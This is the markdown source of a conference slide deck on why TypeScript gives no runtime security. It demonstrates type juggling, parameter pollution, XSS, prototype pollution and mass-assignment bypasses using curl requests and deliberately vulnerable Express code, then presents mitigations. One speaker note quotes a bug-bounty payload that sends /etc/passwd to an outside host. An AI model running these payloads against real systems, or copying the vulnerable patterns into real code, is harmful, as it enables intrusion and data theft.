

# Friend or Foe?
# TypeScript Security Fallacies 

<div class="mt-16">
  <div class="text-3xl text-yellow-500">
    Liran Tal
  </div>
  <span class="text-md text-yellow-500">
    Voxxed Days Bucharest 2025
  </span>
</div>

<div class="flex flex-row justify-center gap-2 mt-4 align-middle">
  <div class="rounded-full w-1/8 bg-white">
    
  </div>
</div>

---
layout: intro
class: text-center
---

<div class="mt-2">
  <div class="text-3xl font-bold text-yellow-500">
    Liran Tal
  </div>
  <div class="flex justify-center items-center">
  <div class="text-center text-yellow-500">
  Developer Advocate at
  </div>
<div class="ml-2">
  
</div>
</div>  
</div>

<div class="mt-10">

<div>
🌟 GitHub Star
</div>

<div>
🏆 OpenJS Foundation Pathfinder for Security Award
</div>

<div>
🐢 Node.js Security Advocate
</div>

<div class="mt-4 flex justify-center items-center">

<div class="w-1/2 mx-auto">

```js
$ snyk test [package]

audited 4 packages in 1s
found 3141527818921 vulnerabilities
```

</div>
</div>

<ArrowDraw color='yellow' class="absolute top-79 left-103 rotate-20" width="80px" />


<div class="ml-8">
😅
</div>


</div>


<div class="flex flex-row justify-center gap-2 mt-12 align-middle">
  <div class="rounded-full w-1/8 bg-white">
    
  </div>

  <div class="flex-col flex gap-4 justify-center text-center">
    <a href="https://x.com/liran_tal" target="_blank">
      <carbon:logo-twitter class="mr-1" /> @liran_tal
    </a>
    <a href="https://github.com/lirantal" target="_blank">
      <carbon:logo-github class="mr-1" /> @lirantal
    </a>
  </div>
</div>

---
layout: center
---

<div class="text-center">

## Just _Types_, what's all the fuss about?

</div>

<!--
 So I mean, Types are easy, right?
 
We've had strongly typed languages for decades.
Just add them to your codebase and you're good to go!

 Let's explore this a bit...
-->


---
layout: top-title
color: purple-light
align: l
---

:: title ::

# How PHP handle type conversion 🙄

:: content ::


<!--

Not to dunk on PHP but if you're a PHP developer you know what I'm talking about 😅

PHP is a loosely typed language, and it's known for its type juggling quirks.

source: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
-->

---
layout: top-title
color: amber-light
align: l
---

:: title ::

# JavaScript Quirks 😆

:: content ::

<div class="flex items-center justify-center">


</div>

<!--

But don't go too far out and feel comfortable with JavaScript either

JavaScript has its own quirks too

A fun example of that is why `[] == ![];` will yield `true` in JavaScript

Explanation (sourced from the wtfjs GitHub repo):
The abstract equality operator converts both sides to numbers to compare them, and both sides become the number 0 for different reasons. Arrays are truthy, so on the right, the opposite of a truthy value is false, which is then coerced to 0. On the left, however, an empty array is coerced to a number without becoming a boolean first, and empty arrays are coerced to 0, despite being truthy.
-->


---
layout: center
---


---
layout: side-title
color: amber-light
align: rm-lm
---

:: title ::

# TypeScript is sooooo good

:: content ::

<v-clicks>

- Code quality
- Find bugs faster
- Lower unit test count
- Minimize security vulnerabilities // WAIT WHAT ??? 😮
- Avoid type confusion in runtime // WAIT WHAT ??? 😮

</v-clicks>

<!--

But, lucky for us JavaScript developers we have TypeScript

What's the promise of TypeScript?

1. Code quality - TypeScript helps you think about the function signature, the returned value and so on
   
2. Find bugs faster - TypeScript can run as fast as you code, no need to wait for tests to run in CI
   
3. Lower unit test count - TypeScript can catch a lot of bugs that you would have to write tests for
   
4. Minimize security vulnerabilities - TypeScript can catch a lot of security vulnerabilities because it can minimize the "unexpected behavior" part of your code (DOES IT??? 😮)
   
5. Avoid type confusion in runtime - TypeScript can catch a lot of type confusion bugs that would happen in runtime (REALLY??? 😮)

-->

---
layout: top-title
align: l
color: amber
---

:: title ::

A TypeScript-powered Express Route Definition

:: content :: 

<div class="mt-12">
</div>

```ts {*|2|3}{lines:true}
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: string = _req.query.filter as string || '';
    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
}
```

<div class="mt-12">

<v-click>

- Does this live up to your type safety expectations?

</v-click>

</div>

<!--
  - What do you think about this TypeScript code?
  - Looks ok
  - We're typing the query parameter 'filter' as string
  - if we run `npx tsc` this will pass
-->

---

# Just an error in the log...


<!--
  What can you make up from this error log?
-->

---
layout: top-title-two-cols
color: red
---

:: title ::

Danger Will Robinson!

:: left ::

Can you spot the issue?

```js
  dust.escapeHtml = function(s) {
    if (typeof s === 'string') {
      if (!HCHARS.test(s)) {
        return s;
      }
      return s.replace(AMP,'&amp;')
        .replace(LT,'&lt;')
        .replace(GT,'&gt;')
        .replace(QUOT,'&quot;')
        .replace(SQUOT, '&#39;');
    }
    return s;
  };
```

:: right ::

<div class="mt-12">
</div>

<v-click>

  - Found in `dustjs-linkedin`
  - Downloaded 100,000 / month
  - Let's appreciate that this was found as a blackbox test

  

</v-click>

---

# A vulnerability report that paid $10k in bug bounty



<!-- 

"just a small typing issue"

that's pocketing a pay-out of $10,000 for a string of text 😉

can finish the presentation with the string payload to keep the dramatic effect:
https://_demo.paypal.com/demo/navigation?device[]=x&device[]=y'-require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+artsploit.com')-'
-->

---
layout: center
---

<div class="text-center">

## _"TypeScript would have caught this"_

</div>

<div class="flex flex-row justify-between gap-52 mt-12">

<div>

<SpeechBubble position="l" color='purple' shape="round" maxWidth="300px">

# No, it wouldn't
</SpeechBubble>


<div v-click="2" class="mt-14">

<SpeechBubble position="l" color='purple' shape="round" maxWidth="300px">

# No, it wouldn't
</SpeechBubble>

  </div>
</div>

<div>
<div v-click="1" class="mt-14">

<SpeechBubble position="r" color='amber-light' shape="round" maxWidth="300px">

# Yes it would
</SpeechBubble>
</div>
<div v-click="3" class="mt-14">

<SpeechBubble position="r" color='amber-light' shape="round" maxWidth="350px">

# Yes yes it would! just use TypeScript!!
</SpeechBubble>

</div>
</div>

</div>

---
layout: default
color: purple-light
---

# HTTP Parameter Pollution

**Definition**: _Manipulating HTTP request data to bypass security controls and introduce unexpected behaviors_

--

<v-click>

<div class="flex flex-row justify-between gap-4">

<div>

### HTTP Request

```sh
http://example.com/?redirectURL=/admin&redirectURL=http://evil.com
```

</div>

<div>

### Route Handler

```ts
app.get("/", (req, res) => 
  {
    const redirect = req.query.redirectURL || "/home"
    res.redirect(redirect)
  })
```

</div>

</div>

</v-click>

<v-click>

<div class="flex flex-row justify-between gap-4">

<div>

### HTTP Request

```sh
http://example.com/users?userId[prop1][prop2]=value
```

</div>

<div>

### Route Handler

```ts
app.get("/users", (req, res) => 
  {
    const userId = req.query.userId
    // is userId a string?
    // is userId an object?
    service.getAllUsersByFilter({user: userId})
  })
```

</div>

</div>

</v-click>

<!--
 ok so before we dive into whether typing the request would work or not
 let's explain dustjs the vulnerability in topic 

 what is parameter pollution

 in the first example, we have a redirect URL that is being set by the query string, and the route handler is redirecting the user to that URL. However, you'll notice the attacker can set multiple redirectURL query strings. How will the route handler code behave? Which of the redirectURL query strings will be used?

 in the second example, we have a query string that sets a userId query string. While the route handler is expecting a userId string, the attacker can set the userId as an object with nested properties, or what seems to be a 2 dimentional array. How will the route handler code behave? Will it interpret the userId as a string or as an object?

 The answer is that it depends on how you've set up your route middleware, what framework you're using and other details about how your code is structured.

 -->

---
layout: cover
color: yellow
---

# 🏴‍☠️ So, let's see some of the black magic in Express + TypeScript

---
layout: top-title
color: amber-light
---

:: title ::

# Express + TypeScript Example

:: content ::

## The premise:

- All you need is TypeScript
- If you type everything, you're safe
- TypeScript param types will be catching these

<v-switch>
  <template #1>

  {width=80%}

  </template>

  <template #2>

## Security promises:

  - Types are enforced at development time and through-out the code
  - "TypeScript CI failures prevent production deploys with errors"

  </template>

</v-switch>

---
layout: top-title
color: amber-light
---

:: title ::

More than 50% of the time, developers rely on TypeScript alone for type-safety

:: content ::

<div class="ml-35">
  <Tweet id="1883849641860710563"/>
</div>

---
layout: quote
author: 'Liran Tal'
color: purple-light
---

## TypeScript does not give any security guarantees.

<!--
  It's a tool to help you write better code, but it's not a security tool
-->

---
layout: intro
author: 'Liran Tal'
color: purple-light
---

<div class="h-full flex flex-col justify-center items-center">

{width=95%}

</div>

<!-- 
  TypeScript developers put misplaced trust in types in the same way that developers put misplaced trust in code coverage.
-->


---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

Express Route definition:

```ts {all}
app.get("/users", userController.getUsers);
```

<div v-click="1" class="mt-12"> 

Then the repository layer:

```ts
export class UserRepository {
  async findAllAsync({ filter }: { filter?: string } = {}): Promise<User[]> {
    if (filter) {
      return users.filter((user) => user.name.startsWith(filter));
    }

    return users;
  }
}
```

</div>

<!-- 
  We have a /users endpoint that serves as a REST API endpoint. It allows users to search for themselves and, in particular, to pass a filter string to match the user's name.

  The repository pattern that demonstrates how this filtering is done is as follows: It exposes a findAllAsync method that receives an object with a filter property.
-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

To query the users, a GET HTTP request is sent:

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter=Al"
```

<!--
  How does the filter query string flow from the route definition onto the repository layer? Let’s explore this pattern and how TypeScript is used there.

-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

The controller layer:

```ts
import type { Request, RequestHandler, Response } from "express";

import { userService } from "@/api/user/userService";
import { handleServiceResponse } from "@/common/utils/httpHandlers";

class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';
    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
}
```

<!--
  The HTTP route definition is as follows, defining the controller code for the / route at the /users prefix and matches all the HTTP requests for the GET verb:
-->


---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

Sending a request with a filter query string to the `/users` endpoint with value of `Al` returns results, **as expected**.

No surprises here.

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

Now, the `filter` query string uses the array convention `filter[]=Al` ... 🤔

```sh{1|all}
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

<!--
  What if applied a type juggling attempt that changes the filter query string to an array?

  So what's happening here?
-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #1

:: content ::

```ts
const filterQuery: any = _req.query.filter || '';
const serviceResponse = await userService.findAll({ filter: filterQuery });
```

- JavaScript `toString` coercion:
- "Liran please don't use `any`"

<!--
  But, no surprise here either because some of you TypeScript zealots might have caught up on the horrendous TypeScript definition for `any`
-->

Let's do better!

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #2

:: content ::

- Let's drop the use of `any`
- Let's use TypeScript to define the query parameter as a string

```ts{5}
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {

    // we now define query as string
    const filterQuery: string = _req.query.filter as string || '';

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

<!--
  We will avoid using the special any TypeScript wildcard for types and instead strictly and explicitly define the filter variable as a string type.
-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #2

:: content ::

Let's make sure everything compiles correctly:

```sh
$ npx tsc
```

<!--

To ensure that we're keeping up with TypeScript's type safety and everything compiles correctly, we run: `npx tsc` and the TypeScript compiler is happy
-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript Security Bypass #2

:: content ::

Let's test our new String-typed `filter`:

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

<!--
  Now surely *type juggling* won't work, right?
-->

---
layout: top-title
color: purple-light
---

:: title ::

# A Reflection on Typing Practices

:: content ::

```ts
// ❌
const filterQuery: any = _req.query.filter

// ❌
const filterQuery: string = _req.query.filter as string || '';
```

<div class="flex flex-row justify-between flex-row-reverse mt-14">

<div>
Them:

<SpeechBubble position="r" color='amber-light' shape="round" maxWidth="300px">

Oh no, don't do that!

You are lying to TypeScript
</SpeechBubble>

</div>


<div v-click class="mt-14">
Me:
<SpeechBubble position="l" color='purple' shape="round" maxWidth="300px">

Hmmm, ok... I guess... ?
</SpeechBubble>

</div>

</div>

---
layout: image-right
image: ./images/linkedin-post-about-express-and-typescript-from-2023.png
backgroundSize: 115%
---

<ArrowDraw color='yellow' class="absolute top-101 left-133" width="220px" />

<div class="grid h-full place-items-center center">

# A Reflection on Typing Practices

</div>

<!-- 
But... are you sure everyone gets it?
-->

---
layout: image-right
image: ./images/blog-post-about-express-and-typescript.png
backgroundSize: contain
---

<ArrowDraw color='yellow' class="absolute top-65 left-115" width="220px" />

<div class="grid h-full place-items-center center">

# A Reflection on Typing Practices

</div>


---
layout: cover
---

# Making React Server Component Secure with TypeScript ? 

---

<SpeechBubble position="l" color='purple' shape="round" maxWidth="300px">

🤔
So maybe we need to declare the types as interfaces?

</SpeechBubble>

<div class="mt-14">

TypeScript expects to uphold the following generic:

</div>

```ts
(alias) interface Request<P = core.ParamsDictionary, 
    ResBody = any,
    ReqBody = any,
    ReqQuery = qs.ParsedQs, 
    Locals extends Record<string, any> = Record<string, any>>
  import Request
```

<!--
  We'll follow a more conventional typing strategy instead of forcing TypeScript with an any or as string type declaration.
  
  We will define the interface for the expected query string schema and apply it to the Request object type.
-->

---
layout: top-title
color: amber-light
---

:: title ::

# TypeScript for a Secure React Server Component

:: content ::

Let's build our own poor-man's React Server Components... 🎉

```ts {all|8|2|13,14}
interface UserComponentQueryString {
  name?: string;
}

class UserController {

  public getUserHelloComponent: RequestHandler = async (
    _req: Request<{}, {}, {}, UserComponentQueryString>,
     res: Response) => {

      const userName = _req.query.name || "World";

      const helloComponent = `<h1>Hello, ${userName}!</h1>`;
      return res.send(helloComponent);
    }
}
```

<!--
  Let's break this one down...

  Of course what's missing here is........... security sanitization!
-->

---
layout: top-title-two-cols
color: amber-light
align: l-lt-lt
---

:: title ::

A Secure React Server Component

:: left ::

Updating our user component:

```ts {6-10}
public getUserHelloComponent: RequestHandler = async (
    _req: Request<{}, {}, {}, UserComponentQueryString>,
     res: Response) => {

      const userName = _req.query.name || "World";

      if (!sanitizeXSS(userName)) {
        return res.status(400).send("Bad input detected!");
      }

      const helloComponent = `<h1>Hello, ${userName}!</h1>`;
      return res.send(helloComponent);
    }
```

:: right ::

Implementation of `sanitizeXSS`:

```ts
function sanitizeXSS(name: string): boolean {
  const disallowList = ["<", ">", "&", '"', "'", "/", "="];

  return !disallowList.
            some((badInput) => name.includes(badInput));
}
```

Now everything is typed and our interfaces are set!

---
layout: cover
---

# TypeScript saves the day? 🤞

```sh {0-5|6}
$ curl -G -X 'GET' 
  -H 'accept: application/json'
  "http://localhost:8080/users/component" 
  --data-urlencode "name=

Hurray! 🎉

</v-click>

---
layout: cover
---

# TypeScript saves the day? 🤞

#### But you now learned an offensive security trick, right...? 😁

reminder: type juggling

<div v-click>

```sh {0-5|6}{at:2}
$ curl -G -X 'GET' 
  -H 'accept: application/json'
  "http://localhost:8080/users/component"
  --data-urlencode "name[]="           

<h1>Hello, !</h1>
```

</div v-click>

<div v-click at="3">
Congrats, you're a hacker! 👏
</div>


---
layout: side-title
color: amber-light
align: rm-lm
---

:: title ::

# TypeScript Pitfalls

:: content ::

- ❌ Some libraries are simply not typed
- ❌ Some libraries are typed but are just wrongly typed
- ❌ Some libraries are typed with "any". Goodluck 🙏
- ❌ Do not use the `any` TypeScript wildcard
- ❌ TypeScript is "development-time" confidence, not "runtime" security
- ❌ Do not rely on TypeScript alone for Type security

<!--
__ TypeScript security fallacies __

So let's take a second to reflect on some of the TypeScript security fallacies we've learned so far.

 Last bullet, emphasize:
 
  TypeScript is to be thought of as "defense in depth", 
  
  adding a layer for better code quality and type safety, but it isn't a security tool in itself and doesn't make any runtime guarantees.
-->

---
layout: cover
---

<Tweet id="1883897466019590307"/>

<!--

  This tweet demonstrates why having an adversarial mindset that TypeScript type system is not a security tool is so important

  Developers put misplaced trust in TypeScript and exchange runtime security for test cases
-->

---
layout: side-title
color: amber-light
align: rm-lm
---

:: title ::

# How to spice up TypeScript for security?

### (part 1)

:: content ::

- ✅ Follow the "TypeScript Narrowing" pattern

```ts
if (typeof filterQuery !== "string") {
  return res.status(400).send("Bad input detected!");
}
```

<v-click>

- 👎 Con: you need to remember adding these type guards all the time
- 👎 Con: your codebase might feel more "dirty" with all these type checks
- 👎 Con: not all type guards are created equal (e.g: typeof `null` is `object` 😅)

</v-click>

<!--

TypeScript Security Best Practice #1

and why it's not perfect...

-->

---
layout: side-title
color: amber-light
align: rm-lm
---

:: title ::

# How to spice up TypeScript for security?

### (part 2)

:: content ::

- ✅ Use a strict schema for runtime security

```ts
import { z } from "zod";

app.get("/users", (req, res) => {

  const querySchema = z.object({
    filter: z.string().optional(),
  });

  const validatedQuery = querySchema.parse(req.query);

});
```

<!-- Introducing Zod -->

---
layout: cover
color: red
---

# Can we bypass both &nbsp;&nbsp;&nbsp;&nbsp; TypeScript AND Zod ??? 😍🤪🤠

<!--

Well, are you ready for more hacking? ;-)

-->

---

# Use-Case: User Notifications Setting

```sh
> [narrated in the voice of your product manager]

As a user,
I want to be able to set a single notification preference,
so that I can control the notifications I receive.
```

<div class="mt-14">
<v-click>
Let's define the route:

```ts
userRouter.put("/:id/settings/notifications", userController.setUserNotificationSetting);
```

</v-click>
</div>

<!--
  Let's expand on a real world and quite typical use-case
-->

---
layout: top-title-two-cols
color: amber-light
align: l-lt-lt
---

:: title ::

Use-Case: User Notifications Setting

:: left ::

1. Request to be handled sends a JSON object as follows:

```json
PUT /users/123/settings/notifications
{
  "notificationType": "email",
  "notificationMode": "daily",
  "notificationModeValue": "disabled"
}
```

:: right ::

2. And the controller handler as follows:

```ts {all|3-6|11,14}
public setUserNotificationSetting: RequestHandler = async 
          (req: Request, res: Response) => {
    const notificationSchema = z.object({
      notificationType: z.string(),
      notificationMode: z.string(),
      notificationModeValue: z.union([z.string(), z.boolean()]),
    });

    const validationResult = notificationSchema.safeParse(req.body);
    const { notificationType, notificationMode, notificationModeValue } = validationResult.data;
    const userId: string = req.params.id;

    await userService.setUserNotificationSetting(userId, 
      notificationType as NotificationType, notificationMode, notificationModeValue);
  }
```

<v-click at="2">

- ✅ Typed at **runtime** with with Zod

</v-click>

<v-click at="3">

- ✅ Typed at **dev-time** with TypeScript

</v-click>

---
layout: cover
---

# TypeScript + Zod saves us? 🤞

```sh {all|5,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": {"type": "email"}, 
       "notificationMode": ["daily"], 
       "notificationModeValue": "disabled"}'

{ "error": [{
      "code": "invalid_type",
      "expected": "string",
      "received": "array",
      "path": [ "notificationMode" ],
      "message": "Expected string, received array"
    }]}
```

<v-click at="1">

Hurray! 🎉

</v-click>

---
layout: cover
color: red
---

# TypeScript + Zod saves us??? 😱

#### Let's apply another offensive security trick... ☠️

```sh {all|4,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'

User notification setting updated successfully 
```


<v-click at="1">

Congrats, you're a hacker! 👏
</v-click>


---
layout: top-title
color: red-light
---

:: title ::

# Breaking Down the TS + Zod Bypass

:: content ::

- What security vulnerability did we not account for? 🤔

  - ✅ We validated (strings)
  - ❌ We didn't account for special kind of strings: `__proto__`

<div class="flex flex-row justify-between gap-4">

<div>

#### 1. Incoming HTTP Req

```sh {all|3}
$ curl -X PUT 
-d '{
"notificationType": "__proto__",
"notificationMode": "isAdmin",
"notificationModeValue": true
}'
```

</div>

<div>

#### 2. Service Layer

```ts {all|6-11}
async setUserNotificationSetting() {
  try {
    const userSettings = {
      ...settingsDefault,
      ...UserSettingsDB.get(userId)
    };

    userSettings
      .notifications
        [notificationType]
        [notificationMode] = notificationModeValue;

    UserSettingsDB.set(userId, userSettings);
  }
```

</div>

<div>

#### 3. Elsewhere in App

```ts {all|3}
app.get("/admin",
  (req, res) => {
    if (req.session.isAdmin) {
      // DO ADMIN STUFF
    }
    return res.status(401)
})
```

</div>

</div>

---
layout: side-title
color: red
---

:: title ::

## Stages of a `__proto__` attack
#### (from an attacker point of view)

:: content ::

## Step 1 🙏

```sh
$ curl http://localhost:8080/admin

Unauthorized
```

<div class="mt-14">
</div>

## Step 2 🤠

```sh
$ curl http://localhost:8080/admin

Hello, Admin!
```

---
layout: cover
color: red
---

## TypeScript + Zod another bypass? 😬😅

{width=80%}


---
layout: top-title
color: blue-light
---

:: title ::

# TS + Zod Bypass, so far so good?

:: content ::

#### 1. Incoming HTTP Request

```sh {2-4}
$ curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile  -d '{
     "name": "Liran",
     "email": "liran@example.com",
     "age": 30
}'
```

<div class="flex flex-row justify-between gap-4">

<div>

#### 2. Controller Layer

```ts {4,8-9}
async saveUser (req: Request, res: Response) => {
    const userObject = req.body;
    userObject.id = Number.parseInt(req.params.id, 10);
    const validationResult = UserSchema.safeParse(userObject);

    if (!validationResult.success) {}

    const user: User = userObject;
    const serviceResponse = await userService.saveUser(user);
    return handleServiceResponse(serviceResponse, res);
  }
```

</div>

<div>

#### 3. Service Layer

```ts {3}
async saveUser(user: User): Promise {
  try {
    const result = await db.update(usersTable)
      .set(user)
      .where(eq(usersTable.id, 1));

    // return success
  } catch (error) {}}
}
```

</div>

</div>

---
layout: top-title
color: red-light
---

:: title ::

# TS + Zod Bypass, oh no!

:: content ::

#### 1. Incoming HTTP Request

````md magic-move
```sh {all|2-4}
$ curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile  -d '{
     "name": "Liran",
     "email": "liran@example.com",
     "age": 30
}'
```
```sh {all}
$ curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile  -d '{
     "name": "Liran",
     "email": "liran@example.com",
     "age": 30,
     "role": "admin"
}'
```
````

<div class="flex flex-row justify-between gap-4">

<div v-click="3">

#### 2. Controller Layer

```ts {all|4,8-9}
async saveUser (req: Request, res: Response) => {
    const userObject = req.body;
    userObject.id = Number.parseInt(req.params.id, 10);
    const validationResult = UserSchema.safeParse(userObject);

    if (!validationResult.success) {}

    const user: User = userObject;
    const serviceResponse = await userService.saveUser(user);
    return handleServiceResponse(serviceResponse, res);
  }
```

</div>

<div v-click="3">

#### 3. Service Layer

```ts {all|3}
async saveUser(user: User): Promise {
  try {
    const result = await db.update(usersTable)
      .set(user)
      .where(eq(usersTable.id, 1));

    // return success
  } catch (error) {}}
}
```

</div>

</div>

---
layout: top-title
color: red-light
---

:: title ::

# TS + Zod Bypass, oh no!

:: content ::

#### 1. Incoming HTTP Request

```sh {all}
$ curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile  -d '{
     "name": "Liran",
     "email": "liran@example.com",
     "age": 30,
     "role": "admin"
}'
```

### ❌ Mass Assignment Vulnerability

- Over-writing or introducing new properties, unintentionally
- Common with ORMs, a la:

  ```js
  User.save(user);
  ```

---
layout: default
color: blue-light
---

# But Liran, how real are these attacks?


---
layout: top-title
color: blue-light
align: l
---

:: title ::

# Case study: `object-path` (2020-2021)

:: content ::

### ℹ Standard use-case

```js
const objectPath = require('object-path');
objectPath.withInheritedProps.set({}, 'address', 'business', 'Menachem Begin 37, Tel Aviv');
```

<div class="block mt-8"></div>

### ❌ Vulnerable code

```js
objectPath.withInheritedProps.set({}, '__proto__', 'isAdmin', true);
```

<div class="block mt-8"></div>

### ✅ Fix

```js
if (options.includeInheritedProps && (currentPath === '__proto__' ||
  (currentPath === 'constructor' && typeof currentValue === 'function'))) {
  throw new Error('For security reasons, object\'s magic properties cannot be set')
}
```

<!--

- downloaded about 8 million times a MONTH

- all last 3 versions were security fixes

  Story reference: https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/
-->

---
layout: top-title
color: blue-light
align: l
---

:: title ::

# Case study: `object-path` (2020-2021)

:: content ::

### ❌ Vulnerable code

````md magic-move
```js
objectPath.withInheritedProps.set({}, '__proto__', 'isAdmin', true);
```
```js
objectPath.withInheritedProps.set({}, [['__proto__'], 'isAdmin'], true);
```
````

- Expected strings to be strings but what about arrays?

<div v-click="2" class="block mt-8">

### ✅✅ Fix

- Snyk security research team discovered and worked with maintainers to fix

```js
var currentPath = path[0];
if (typeof currentPath !== 'string' && typeof currentPath !== 'number') {
  currentPath = String(currentPath)
}
var currentValue = getShallowProperty(obj, currentPath);
if (options.includeInheritedProps && (currentPath === '__proto__' ||
  (currentPath === 'constructor' && typeof currentValue === 'function'))) {
  throw new Error('For security reasons, object\'s magic properties cannot be set')
}
```

</div>

<!--
  Story reference: https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/
-->

---
layout: top-title
color: blue-light
align: l
---

:: title ::

# Case study: `edge.js` (2021)

:: content ::

### ℹ Standard use-case

```js
app.get('/home', (req, res) => {
    const html = edge.render('welcome', { greeting: req.query.name })
    return res.send(html)
})
```

```js
<p> {{ greeting }} </p>
```

```js
public escape<T>(input: T): T extends SafeValue ? T['value'] : T {
  return typeof input === 'string'
    ? string.escapeHTML(input)
    : input instanceof SafeValue
    ? input.value
    : input
}
```

<!--

  example exploit payload:
  // curl -i -X GET "https://localhost:3000/test?name[]=%3Cimg%20src=x%20onerror=%27alert(1)%27%20/%3E"

  Story reference: https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/
-->


---
layout: top-title
color: blue-light
align: l
---

:: title ::

# Case study: `edge.js` (2021)

:: content ::

### ✅ Safely escaped

```
GET http://localhost:3000/test?name=%3Cimg%20src=x%20onerror=%27alert(1)%27%20/%3E
```

<div class="block mt-8"></div>

### ❌ Not safely escaped

```
GET http://localhost:3000/test?name[]=%3Cimg%20src=x%20onerror=%27alert(1)%27%20/%3E
```

<!--
  Story reference: https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/
-->

---
layout: cover
color: purple-light
---

### TypeScript Security Learnings 🧑‍🎓

<div class="flex flex-row justify-center gap-16">

<div>

- 👍 Use TypeScript, it's great
- ❌ TypeScript is not a security tool
- ✅ Adopt Zod and TS Narrowing
- ✅ Validate schema allow-list
- ✅ Practice defense in depth

</div>

<div>

<v-click>

- 🎓 You also learned some new security tricks:
  - Type Juggling Vulnerabilities 🤡
  - Prototype Pollution Attacks 💨
  - Mass Assignment Vulnerabilities ✍️

</v-click>

</div>

</div>

---
layout: center
color: black
---

<div>


</div>

---
layout: center
color: black
---

<div>


</div>

---
layout: credits
color: light
speed: 0.5
---

<div class="grid text-size-4 grid-cols-3 w-3/4 gap-y-10 auto-rows-min ml-auto mr-auto">
<div class="grid-item text-center mr-0- col-span-3">
  
  The End
</div>
<div class="grid-item text-center mr-0- col-span-3">
  <strong>Thank You</strong><br> 
  <span class="font-size-3 mt-0">(not in order of appearance)</span>
</div>
<div class="grid-item text-right mr-4 col-span-1"><strong>Event</strong></div>
<div class="grid-item col-span-2">
  Voxxed Days Bucharest 2025 <i>as The organizer crew</i>&nbsp;<mdi-open-in-new class="font-size-3 mb-0.5" />
  <br/>
